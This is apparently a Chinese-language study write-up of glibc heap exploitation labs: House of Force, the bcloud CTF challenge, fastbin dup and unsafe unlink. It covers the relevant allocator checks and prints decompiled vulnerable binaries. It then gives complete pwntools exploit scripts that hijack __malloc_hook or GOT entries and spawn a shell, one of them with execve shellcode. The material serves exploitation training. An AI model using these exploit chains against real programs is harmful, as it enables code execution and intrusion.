

GLIBC 2.29版引入了顶部块大小字段的合理性检查。link

GLIBC 2.30版引入了最大分配大小检查，它限制了 house of force”可以弥补的差距大小。link

https://www.cnblogs.com/luoleqi/p/11801400.html
用一个较大的值来重写top_chunk的大小字段，然后请求足够的内存来弥补顶块和目标数据之间的差距 。以这种方式进行的分配可以环绕VA空间，使得这种技术可以以比堆更低的地址为目标地址。
在GLIBC版本<2.29中，top chunk 大小字段在分配期间不受任何完整性检查。如果一个top chunk大小 的字段被覆盖，例如溢出并被替换成一个大的值，那么从该top chunk的后续分配可能会与使用中的内存重叠。在GLIBC<2.30的版本中，从一个被破坏的top chunk中分配的非常大的内存可以环绕VA空间。
例如，一个top chunk 从地址0x405000开始，驻留在程序数据部分的地址0x404000的目标数据必须被覆盖。使用溢出覆盖顶top chunk 大小字段，将其替换为0xffffffffffffff1的值。接下来，计算将top chunk 移动到目标之前的地址所需的字节数。总数是0xffffffffffffffffff-0x405000字节，以达到VA空间的末端，然后是0x404000-0x20个字节，以在目标地址之前停止。
在这个请求top chunk得到服务后，下一个申请的块将与目标数据重叠。
文件详见附件 house_of_force
┌──(fanya㉿ferity)-[~/…/heap/heaplab/part1/house_of_force]
└─$ checksec house_of_force
[*] '/home/fanya/Desktop/heap/heaplab/part1/house_of_force/house_of_force'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
RUNPATH: '../.glibc/glibc_2.28_no-tcache'
程序在运行时已给出libc地址及heap地址。
在read(0, m_array[index++], v5 + 8);中明显的溢出8个字节。
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
unsigned __int64 num; // rax
unsigned __int64 v4; // rax
size_t v5; // rax
unsigned int index; // [rsp+14h] [rbp-3Ch]
char *m; // [rsp+18h] [rbp-38h]
char *m_array[4]; // [rsp+20h] [rbp-30h] BYREF
unsigned __int64 v9; // [rsp+48h] [rbp-8h]
v9 = __readfsqword(0x28u);
setvbuf(stdout, 0LL, 2, 0LL);
puts("\n===============");
puts("| HeapLAB | House of Force");
puts("===============\n");
printf("puts() @ %p\n", &puts);
m = (char *)malloc(0x88uLL);
printf("heap @ %p\n", m - 16);
free(m);
memset(m_array, 0, sizeof(m_array));
index = 0;
while ( 1 )
{
while ( 1 )
{
printf("\n1) malloc %u/%u\n", index, 4LL);
puts("2) target");
puts("3) quit");
printf("> ");
num = read_num();
if ( num != 2 )
break;
printf("\ntarget: %s\n", target);
}
if ( num == 3 )
break;
if ( num == 1 )
{
if ( index > 3 )
{
puts("maximum requests reached");
}
else
{
printf("size: ");
v4 = read_num();
m_array[index] = (char *)malloc(v4);
if ( m_array[index] )
{
printf("data: ");
v5 = malloc_usable_size(m_array[index]);
read(0, m_array[index++], v5 + 8);
}
else
{
puts("request failed");
}
}
}
}
exit(0);
}
使用8字节溢出修改top_chunk的size为0xffffffffffffffff
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))

计算与目标地址的地址
# Calculate the "wraparound" distance between two addresses.
def delta(x, y): return (0xffffffffffffffff - x) + y
distance = delta(heap + 0x20, elf.sym.target - 0x20)
# heap -> heap addr 0x20 ->first chunk size
distance = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)
创建chunk，达到任意地址写
modify_target
~~~python
malloc(distance, b"a") malloc(24, b'aaaaaaa')
~~~

drop shell
malloc(distance, b"/bin/sh")
malloc(24, p64(libc.sym.system))
cmd = heap + 0x30
malloc(cmd, b'')

文件详见附件 bcloud

将程序打完注释后为bcloud.idb
在my_input函数中在末尾 a2 的位置加入一个\x00, 而在name_init中s本为64的大小，my_input也是64，但会在65的位置加一个\x00, 但是由于后面的v2赋值的操作，将\x00覆盖为了别的值，而且会在后面的some_output泄露出v2的堆地址。由于字符串的结束标志为\x00，所以strcpy 和 puts 函数都会对这个v2的堆地址进行操作。
int __cdecl my_input(int a1, int a2, char a3)
{
char buf; // [esp+1Bh] [ebp-Dh] BYREF
int i; // [esp+1Ch] [ebp-Ch]
for ( i = 0; i < a2; ++i )
{
if ( read(0, &buf, 1u) <= 0 )
exit(-1);
if ( buf == a3 )
break;
*(_BYTE *)(a1 + i) = buf;
}
*(_BYTE *)(i + a1) = 0;
return i;
}
unsigned int name_init()
{
char s[64]; // [esp+1Ch] [ebp-5Ch] BYREF
char *v2; // [esp+5Ch] [ebp-1Ch]
unsigned int v3; // [esp+6Ch] [ebp-Ch]
v3 = __readgsdword(0x14u);
memset(s, 0, 0x50u);
puts("Input your name:");
my_input((int)s, 64, '\n');
v2 = (char *)malloc(0x40u);
name_chunk_0x40 = (int)v2;
strcpy(v2, s);
some_output(v2); // 信息泄露
return __readgsdword(0x14u) ^ v3;
}
int __cdecl some_output(const char *a1)
{
printf("Hey %s! Welcome to BCTF CLOUD NOTE MANAGE SYSTEM!\n", a1);
return puts("Now let's set synchronization options.");
}
在后面的org_host_init函数中对于org及host的初始化也像上述一样，我们注意到strcpy在给org赋值的时候会将org字符串、org返回地址以及host字符串全部赋给org，从而造成堆溢出构造我们使用house of force的条件。
unsigned int org_host_init()
{
char org_chunk_con[64]; // [esp+1Ch] [ebp-9Ch] BYREF
char *org_chunk; // [esp+5Ch] [ebp-5Ch]
char host_chunk_con[68]; // [esp+60h] [ebp-58h] BYREF
char *host_chunk; // [esp+A4h] [ebp-14h]
unsigned int v5; // [esp+ACh] [ebp-Ch]
v5 = __readgsdword(0x14u);
memset(org_chunk_con, 0, 0x90u);
puts("Org:");
my_input((int)org_chunk_con, 64, 10);
puts("Host:");
my_input((int)host_chunk_con, 64, 10);
host_chunk = (char *)malloc(0x40u);
org_chunk = (char *)malloc(0x40u);
org_chunk_addr = (int)org_chunk;
host_chunk_addr = (int)host_chunk;
strcpy(host_chunk, host_chunk_con);
strcpy(org_chunk, org_chunk_con); // <---
puts("OKay! Enjoy:)");
return __readgsdword(0x14u) ^ v5;
}
在后续的new_note、show_note 、edit_note、 del_note便为常规操作，值得注意的是程序最多创建10个node，将其地址和大小分别储存在node_list和node_size_list中，从而方便我们使用edit_note的时候修改某些值。
free@got.plt 为 puts@got.plt，泄漏 libcatoi@got.plt 为 system@got.plt，得到 shell使用name的输入 -》 泄露堆地址
# leak the heap addr
# dbg()
io.sendafter("name:\n", b'A'*0x40)
heap = u32(io.recvuntil(b"! Welcome to BCTF", drop=True)[-4:])
log.info(f"heap_addr -> {hex(heap)}")

利用org和host的输入 -》 修改top chunk的size为-1
# overflow
io.sendafter("Org:\n", "A" * 0x40)
io.sendlineafter("Host:\n", p32(0xffffffff))
# dbg()

计算hack_chunk 的大小 将top_chunk移动至bss段
0x804b0a0 -> note_size_list
new((0x804b0a0 - 0x10) - (heap + 0xd0), b'AAAA')
新建一个chunk 覆盖note_list 数组，并修改其内容
payload = b'A'*0x80
payload += p32(elf.got.free) # note[0]
payload += p32(elf.got.atoi) * 2 # note[1] note[2]
new(0x8c, payload)
# dbg()

修改free_got 为 puts_got 泄露libc地址
# free@got.plt -> puts@plt
edit(0, p32(elf.plt.puts))
dele(1)
atoi_addr = u32(io.recvn(4))
io.recv()
libc.address = atoi_addr - libc.sym.atoi
log.info(f"libc addr -> {hex(libc.address)}")

修改 atoi_got 为 system_got， 获得shell
system_addr = libc.sym.system
log.info(f"system addr -> {hex(libc.sym.system)}")
# dbg()
io.sendline('\n')
edit(2, p32(system_addr))
io.sendlineafter(b'option--->>\n', b'/bin/sh\x00')
io.interactive()

#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./bcloud')
libc = elf.libc
context.log_level = 'debug'
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
io = start()
def new(length, context):
io.sendlineafter("option--->>\n", b'1')
io.sendlineafter("note content:\n", str(length))
io.sendlineafter("content:\n", context)
def edit(idx, context):
io.sendlineafter("option--->>\n", b'3')
io.sendline(str(idx))
io.sendlineafter("content:\n", context)
def dele(idx):
io.sendlineafter("option--->>\n", b'4')
io.sendlineafter("id:\n", str(idx))
def dbg():
gdb.attach(io)
pause()
# leak the heap addr
# dbg()
io.sendafter("name:\n", b'A'*0x40)
heap = u32(io.recvuntil(b"! Welcome to BCTF", drop=True)[-4:])
log.info(f"heap_addr -> {hex(heap)}")
# overflow
io.sendafter("Org:\n", "A" * 0x40)
io.sendlineafter("Host:\n", p32(0xffffffff))
# dbg()
new((0x804b0a0 - 0x10) - (heap + 0xd0), b'AAAA')
# new((0xffffffff - (heap + 0xd0) + (0x804b0a0 - 0x10)), b'aaaa')
# dbg()
# new(0x40, b"a"*0x40)
payload = b'A'*0x80
payload += p32(elf.got.free) # note[0]
payload += p32(elf.got.atoi) * 2 # note[1] note[2]
new(0x8c, payload)
# dbg()
# free@got.plt -> puts@plt
edit(0, p32(elf.plt.puts))
dele(1)
atoi_addr = u32(io.recvn(4))
io.recv()
libc.address = atoi_addr - libc.sym.atoi
log.info(f"libc addr -> {hex(libc.address)}")
system_addr = libc.sym.system
log.info(f"system addr -> {hex(libc.sym.system)}")
# dbg()
io.sendline('\n')
edit(2, p32(system_addr))
io.sendlineafter(b'option--->>\n', b'/bin/sh\x00')
io.interactive()
利用double-free错误，强制malloc返回一个chunk两次，中间不释放它。这种技术通常是通过破坏fastbin元数据，将一个假的块链接到fastbin中来利用的。这个假块可以被分配，然后程序功能可以被用来读取或写入一个任意的内存位置。
fastbin中double free检查只确保被释放到fastbin中的块不是该bin中的第一个块(链表头部的块、刚刚释放的块)，如果在两个bin之间释放了一个相同大小的不同块，则检查通过。
正常情况:

double free:

/* Atomically link P to its fastbin: P->FD = *FB; *FB = P; */
mchunkptr old = *fb, old2;
unsigned int old_idx = ~0u;
do {
/* Check that the top of the bin is not the record we are going to add
(i.e., double free). */
if (__builtin_expect(old == p, 0)) {
errstr = "double free or corruption (fasttop)";
goto errout;
}
/* Check that size of fastbin chunk at the top is the same as
size of the chunk that we are adding. We can dereference OLD
only if we have the lock, otherwise it might have already been
deallocated. See use of OLD_IDX below for the actual check. */
if (have_lock && old != NULL)
old_idx = fastbin_index(chunksize(old));
p->fd = old2 = old;
} while ((old = catomic_compare_and_exchange_val_rel(fb, p, old2)) != old2);
if (have_lock && old != NULL && __builtin_expect(old_idx != idx, 0)) {
errstr = "invalid fastbin entry (free)";
goto errout;
}
绕过 double free:

除此之外，在释放时还会检查当前块的size域与头部域是否相等，由于我们释放的是同一个块，也就不存在该问题。
将一个块二次释放后，我们继续malloc一个相同大小的块，此时malloc将从fastbin中创建块，而不是在top chunk中创建。此时我们往这个块中填写数据就意味着我们正在修改这个块的fd指针，将其修改为一个我们想要的值即可。

但是此过程中也存在着一个对size域的检查措施，因此我们常常使用__malloc_hook前35字节所出现的一个0x7f的大小字段，然后将__malloc_hook修改为one_gadget。所需要注意的是假尺寸字段中不兼容的标志，一个设置的NON_MAIN_ARENA标志和一个清除的 CHUNK_IS_MMAPPED标志会导致一个segfault。能够这样做的原因是，分配既不受对齐检查，也不受标志损坏检查

/*
If the size qualifies as a fastbin, first check corresponding bin.
This code is safe to execute even if av is not yet initialized, so we
can try it without checking, which saves some time on this fast path.
*/
if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ())) {
idx = fastbin_index (nb);
mfastbinptr *fb = &fastbin (av, idx);
mchunkptr pp = *fb;
do {
victim = pp;
if (victim == NULL)
break;
} while ((pp = catomic_compare_and_exchange_val_acq(fb, victim->fd, victim))
!= victim);
if (victim != 0) {
if (__builtin_expect(fastbin_index (chunksize(victim)) != idx, 0)) {
errstr = "malloc(): memory corruption (fast)";
errout:
malloc_printerr(check_action, errstr, chunk2mem (victim), av);
return NULL;
}
check_remalloced_chunk (av, victim, nb);
void *p = chunk2mem (victim);
alloc_perturb(p, bytes);
return p;
}
}
文件详见附件 fastbin_dup
┌──(fanya㉿ferity)-[~/…/heap/heaplab/part1/fastbin_dup]
└─$ checksec fastbin_dup
[*] '/home/fanya/Desktop/heap/heaplab/part1/fastbin_dup/fastbin_dup'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
RUNPATH: '../.glibc/glibc_2.30_no-tcache'
在程序运行时给出了libc的地址，并未阻止double free的操作。
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
unsigned __int64 num; // rax
unsigned int index; // [rsp+14h] [rbp-4Ch]
size_t n; // [rsp+18h] [rbp-48h]
unsigned __int64 na; // [rsp+18h] [rbp-48h]
char *m_array[7]; // [rsp+20h] [rbp-40h] BYREF
unsigned __int64 v8; // [rsp+58h] [rbp-8h]
v8 = __readfsqword(0x28u);
setvbuf(stdout, 0LL, 2, 0LL);
puts("\n===============");
puts("| HeapLAB | Fastbin Dup");
puts("===============\n");
printf("puts() @ %p\n", &puts);
memset(m_array, 0, sizeof(m_array));
index = 0;
printf("\nEnter your username: ");
read(0, &user_0, 0x10uLL);
while ( 1 )
{
while ( 1 )
{
printf("\n1) malloc %u/%u\n", index, 7LL);
puts("2) free");
puts("3) target");
puts("4) quit");
printf("> ");
num = read_num();
if ( num != 2 )
break;
printf("index: ");
na = read_num();
if ( na >= index )
puts("invalid index");
else
free(m_array[na]);
}
if ( num > 2 )
{
if ( num == 3 )
{
printf("\ntarget: %s\n", user_0.target);
}
else if ( num == 4 )
{
exit(0);
}
}
else if ( num == 1 )
{
if ( index > 6 )
{
puts("maximum requests reached");
}
else
{
printf("size: ");
n = read_num();
if ( n > 0x78 )
{
puts("fast chunks only (120 bytes maximum)");
}
else
{
m_array[index] = (char *)malloc(n);
if ( m_array[index] )
{
printf("data: ");
read(0, m_array[index++], n);
}
else
{
puts("request failed");
}
}
}
}
}
}
pwndbg> ptype user
type = struct user {
char username[16];
char target[16];
}
00000000 user struc ; (sizeof=0x20, copyof_13) ; XREF: .data:user_0/r
00000000 username db 16 dup(?)
00000010 target db 16 dup(?)
00000020 user ends
00000020
fastbin dup
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)

修改fd指针
# modify fd
chunk_1 = malloc(0x28, p64(elf.sym.user))

malloc twice
# malloc_twice
malloc(0x28, b"1")
malloc(0x28, b"2")

malloc fake chunk
# malloc the fake chunk
malloc(0x28, b"win !")
但此时由于我们之前并没有设置虚假的size字段，所以会出现一个中断。如果我们设置了那个虚假的字段，便修改完成

success

#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("fastbin_dup")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
global index
io.send(b"1")
io.sendafter(b"size: ", f"{size}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
index += 1
return index - 1
# Select the "free" option; send index.
def free(index):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1
# =============================================================================
# Set the username field.
username = p64(0) + p64(0x31)
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")
# Request two 0x30-sized chunks and fill them with data.
chunk_A = malloc(0x28, b"A"*0x28)
chunk_B = malloc(0x28, b"B"*0x28)
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)
# modify fd
chunk_1 = malloc(0x28, p64(elf.sym.user))
# malloc_twice
malloc(0x28, b"1")
malloc(0x28, b"2")
# malloc the fake chunk
malloc(0x28, b"win !")
# =============================================================================
io.interactive()
虚假字段的大小为0x7f -> 意味着我们要申请0x68的chunk。然后fastbin dup 将其fd修改至__malloc_hook - 35 的位置。
# Request two 0x30-sized chunks and fill them with data.
chunk_A = malloc(0x68, b"A"*0x28)
chunk_B = malloc(0x68, b"B"*0x28)
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)
# modify fd
malloc(0x68, p64(libc.sym.__malloc_hook - 35))
填充0x13的垃圾数据，接着填入one_gadget的地址。
# malloc twice
malloc(0x68, b'0')
malloc(0x68, b'1')
# malloc fake chunk
# if no limit malloc's count
# malloc(0x68, p8(0)*0x13+p64(libc.sym.system))
# sh_addr = p64(next(libc.search(b'/bin/sh\x00')))
# malloc(sh_addr, b"")
one = [0xc4dbf, 0xc4de6, 0xe1fa1]
malloc(0x68, p8(0)*0x13+p64(libc.address + one[2]))
malloc(0x10, b'')
drop shell

#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("fastbin_dup")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
global index
io.send(b"1")
io.sendafter(b"size: ", f"{size}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
index += 1
return index - 1
# Select the "free" option; send index.
def free(index):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1
# =============================================================================
# =-=-=- EXAMPLE -=-=-=
# Set the username field.
username = b"ferity-fan"
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")
# Request two 0x30-sized chunks and fill them with data.
chunk_A = malloc(0x68, b"A"*0x28)
chunk_B = malloc(0x68, b"B"*0x28)
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)
# modify fd
malloc(0x68, p64(libc.sym.__malloc_hook - 35))
# malloc twice
malloc(0x68, b'0')
malloc(0x68, b'1')
# malloc fake chunk
# if no limit malloc's count
# malloc(0x68, p8(0)*0x13+p64(libc.sym.system))
# sh_addr = p64(next(libc.search(b'/bin/sh\x00')))
# malloc(sh_addr, b"")
one = [0xc4dbf, 0xc4de6, 0xe1fa1]
malloc(0x68, p8(0)*0x13+p64(libc.address + one[2]))
malloc(0x10, b'')
# =============================================================================
io.interactive()
文件详见附件 fastbin_dup_2
┌──(fanya㉿ferity)-[~/…/heap/heaplab/part1/challenge-fastbin_dup]
└─$ checksec fastbin_dup_2
[*] '/home/fanya/Desktop/heap/heaplab/part1/challenge-fastbin_dup/fastbin_dup_2'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
RUNPATH: '../.glibc/glibc_2.30_no-tcache'
没有限制double free，但此时的chunk申请不了0x68的大小也就意味着我们不能直接利用那个__malloc_hook - 35的位置了。但是我们知道main_arena上存着各种fastbin的fd指针，可以使用两次fastbin dup，一次用来写 size字段，一次用来写fd字段，此时的fd字段是main_arena上的某个位置（要与伪造的size相对应），接着malloc来覆盖至top_chunk的地址，修改至__malloc_hook - 35 的位置，此时继续malloc适当的大小即可覆盖至__malloc_hook，将其覆盖为one_gadget的地址。但是我们发现此时的寄存器状态并不满足任何一个one_gadget所需要的条件，不过经我们调试发现相应的位置存着是我们之前输入的值，将其修改为-s\x00即可。
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
unsigned __int64 num; // rax
unsigned int index; // [rsp+14h] [rbp-7Ch]
size_t n; // [rsp+18h] [rbp-78h]
unsigned __int64 na; // [rsp+18h] [rbp-78h]
char *m_array[13]; // [rsp+20h] [rbp-70h] BYREF
unsigned __int64 v8; // [rsp+88h] [rbp-8h]
v8 = __readfsqword(0x28u);
setvbuf(_bss_start, 0LL, 2, 0LL);
puts("\n===============");
puts("| HeapLAB | CHALLENGE: Fastbin Dup");
puts("===============\n");
printf("puts() @ %p\n", &puts);
memset(m_array, 0, sizeof(m_array));
index = 0;
while ( 1 )
{
while ( 1 )
{
printf("\n1) malloc %u/%u\n", index, 13LL);
puts("2) free");
puts("3) quit");
printf("> ");
num = read_num();
if ( num != 2 )
break;
printf("index: ");
na = read_num();
if ( na >= index )
puts("invalid index");
else
free(m_array[na]);
}
if ( num == 3 )
break;
if ( num == 1 )
{
if ( index > 0xC )
{
puts("maximum requests reached");
}
else
{
printf("size: ");
n = read_num();
if ( n > 0x58 && (n <= 0x68 || n > 0x78) )
{
puts("fast chunks only (excluding 0x70)");
}
else
{
m_array[index] = (char *)malloc(n);
if ( m_array[index] )
{
printf("data: ");
read(0, m_array[index++], n);
}
else
{
puts("request failed");
}
}
}
}
}
exit(0);
}
两次fastbin dup，伪造一个size字段以及一个fd字段

继续malloc，将top chunk的地址覆盖，为了方便观看我们将其修改为0xdeadbeef

为了满足一个对size字段的检查，我们还是用__malloc_hook - 35来覆盖top_chunk的地址。
--- a/malloc/malloc.c
+++ b/malloc/malloc.c
@@ -4076,6 +4076,9 @@ _int_malloc (mstate av, size_t bytes)
victim = av->top;
size = chunksize (victim);
+ if (__glibc_unlikely (size > av->system_mem))
+ malloc_printerr ("malloc(): corrupted top size");
+
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
{
remainder_size = size - nb;
继续malloc，使用one_gadget来覆盖__malloc_hook，为了方便观察，我们仍然使用0xdeadbeef来代替

继续malloc，观察是否满足one_gadget的条件

此时的寄存器状态

此时的栈帧状态

可以观察到并不满足任何一个one_gadget的地址，但是我们看到第三个one_gadget，只要求rsp+0x50的位置所存的值为0即可，此时的值我们发现是可以有我们自己控制的，遂修改即可。
drop a shell

#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("fastbin_dup_2")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
global index
io.send(b"1")
io.sendafter(b"size: ", f"{size}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
index += 1
return index - 1
# Select the "free" option; send index.
def free(index):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1
# =============================================================================
# =-=-=- EXAMPLE -=-=-=
# Request two 0x50-sized chunks.
chunk_A = malloc(0x48, b"A"*8)
chunk_B = malloc(0x48, b"B"*8)
# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)
malloc(0x48, p64(0x61))
malloc(0x48, b"C"*0x48)
malloc(0x48, b"D"*0x48)
# other fastbin dup
chunk_E = malloc(0x58, b"E"*0x58)
chunk_F = malloc(0x58, b"F"*0x58)
free(chunk_E)
free(chunk_F)
free(chunk_E)
malloc(0x58, p64(libc.sym.main_arena + 0x20))
# malloc(0x58, b"G"*0x58)
malloc(0x58, b"-s\x00")
malloc(0x58, b"H"*0x58)
# over_write the top_chunk
malloc(0x58, b"Y"*0x30 + p64(libc.sym.__malloc_hook - 35))
# malloc(0x58, b"Y"*0x30 + p64(0xdeadbeef))
# malloc fake chunk
malloc(0x28, b"Z"*0x13 + p64(libc.address + 0xe1fa1))
# malloc(0x28, b"Z"*0x13 + p64(0xdeadbeef))
# drop a shell
malloc(0x10, b"")
# =============================================================================
io.interactive()
文件详见babyheap
为了避免堆内存过度碎片化，当一个堆块（fastbin chunk 除外）被释放时，libc会查看其前后堆块是否处于被释放的状态，如果是，就将前面或后面的堆块中从bins中取出，并于当前堆块合并，这个取出的过程便是unlink。
假设我们此时开辟了6个大小为0xa0的堆块：
此时我们释放靠近top chunk的堆块，我们会发现该堆块会和top chunk合并
此时我们释放第一个申请的块，我们可以看到这个块已被放入了unsortedbin，且fd,bk指针均被赋值，下一个chunk的prev_size及prev_inuse均有改变
此时我们再去释放临近块，我们会发现两个chunk合并成立一个chunk。


在这个unlink的过程中存在着一个fd,bk的反射写入，我们此漏洞的利用同样也是根据于此：
我们先创建5个大小为0x90的堆块：
接着我们利用堆溢出来修改第三个堆块的fd, bk以及第四个堆块的prev_size，prev_inuse:
我们继续释放第四个块，此时第四个块的prev_inuse为0，也就意味着这个堆块会向前合并。

unsafe unlink 相应代码如下：
#define unlink(AV, P, BK, FD) {\
FD = P->fd;\
BK = P->bk;\
FD->bk = BK;\
BK->fd = FD;\
if (!in_smallbin_range (P->size)\
&& __builtin_expect (P->fd_nextsize != NULL, 0)) {\
if (FD->fd_nextsize == NULL) {\
if (P->fd_nextsize == P)\
FD->fd_nextsize = FD->bk_nextsize = FD;\
else {\
FD->fd_nextsize = P->fd_nextsize;\
FD->bk_nextsize = P->bk_nextsize;\
P->fd_nextsize->bk_nextsize = FD;\
P->bk_nextsize->fd_nextsize = FD;\
}\
} else {\
P->fd_nextsize->bk_nextsize = P->bk_nextsize;\
P->bk_nextsize->fd_nextsize = P->fd_nextsize;\
}\
}\
}
这项技术只能在GLIBC版本<=2.3.3的情况下使用，safe unlink 是在2004年GLIBC版本2.3.4中引入的，而GLIBC版本如此之老并不常见。这项技术最初是用来对付没有NX/DEP的平台的，这里也是这样描述的。2003年，AMD在他们的消费者桌面处理器中引入了硬件NX支持，随后英特尔在2004年也引入了，因此没有这种保护的系统并不常见。
文件详见
┌──(fanya㉿ferity)-[~/…/heap/heaplab/part1/unsafe_unlink]
└─$ checksec unsafe_unlink
[*] '/home/fanya/Desktop/heap/heaplab/part1/unsafe_unlink/unsafe_unlink'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX disabled
PIE: PIE enabled
RWX: Has RWX segments
RUNPATH: '../.glibc/glibc_2.23_unsafe-unlink'
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("unsafe_unlink")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
# Index of allocated chunks.
index = 0
# Select the "malloc" option; send size.
# Returns chunk index.
def malloc(size):
global index
io.send(b"1")
io.sendafter(b"size: ", f"{size}".encode())
io.recvuntil(b"> ")
index += 1
return index - 1
# Select the "edit" option; send index & data.
def edit(index, data):
io.send(b"2")
io.sendafter(b"index: ", f"{index}".encode())
io.sendafter(b"data: ", data)
io.recvuntil(b"> ")
# Select the "free" option; send index.
def free(index):
io.send(b"3")
io.sendafter(b"index: ", f"{index}".encode())
io.recvuntil(b"> ")
io = start()
# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
# This binary leaks the heap start address.
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1
# =============================================================================
# Prepare execve("/bin/sh") shellcode with a jmp over where the fd will be written.
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)
fd = libc.sym.__free_hook - 0x18
bk = heap + 0x20
edit(chunk_A, pack(fd) + pack(bk) + shellcode.ljust(0x70, b'\x00') + p64(0x90)*2)
free(chunk_B)
free(chunk_A)
# =============================================================================
io.interactive()